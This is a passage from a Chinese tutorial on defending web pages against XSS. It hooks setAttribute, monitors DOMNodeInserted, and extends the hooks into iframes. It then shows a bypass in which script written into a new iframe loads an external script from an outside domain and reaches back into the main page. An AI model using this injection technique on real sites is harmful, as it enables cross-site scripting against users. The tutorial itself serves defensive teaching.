 前面说了，每个页面环境是独立的，主页面是捕捉不到子页面里的事件的。所以，框架页里创建元素，我们完全不知道。

怎么破？这还不简单，索性给框架页也绑上 DOMNodeInserted 事件，不就可以层层监控了吗。无论框架的几次方，都逃不过我们的火眼金睛了。

```js
// 我们防御系统
(function() {
	function installHook(window) {
		// 保存上级接口
		var raw_fn = window.Element.prototype.setAttribute;

		// 勾住当前接口
		window.Element.prototype.setAttribute = function(name, value) {
			// 试试
			alert(name);

			// 向上调用
			raw_fn.apply(this, arguments);
		};

		// 监控当前环境的元素
		window.document.addEventListener('DOMNodeInserted', function(e) {
			var element = e.target;

			// 给框架里环境也装个钩子
			if (element.tagName == 'IFRAME') {
				installHook(element.contentWindow);
			}
		}, true);
	}

	// 先保护当前页面
	installHook(window);
})();
```
[Run](http://jsfiddle.net/zjcqoo/FbZdv/)

只需简单的小改动。我们把 DOMNodeInserted 放到 installHook 里，这样在安装钩子的同时，也对当前 window 中的元素进行监控。一旦出现框架元素，就递归防护。

现在，我们的框架页监控已是天衣无缝了。


## 新页面逆向控制

不过，世上没有绝对的事。

我们只考虑了正向的反射，却忘了框架也可以逆向控制主页面。攻击者要是能把 XSS 脚本注入到框架页里，同样也可以向上修改主页面里的内容，发起信任攻击。

在框架里引入脚本，方法就更多了。框架元素虽然是动态创建的，但其内容可以静态呈现：

```js
// 创建框架页
var frm = document.createElement('iframe');
document.body.appendChild(frm);

// 静态呈现
frm.contentDocument.write('<\script src=http://www.etherdream.com/xss/alert.js><\/script>');
```
[Run](http://jsfiddle.net/zjcqoo/3bRkL/)
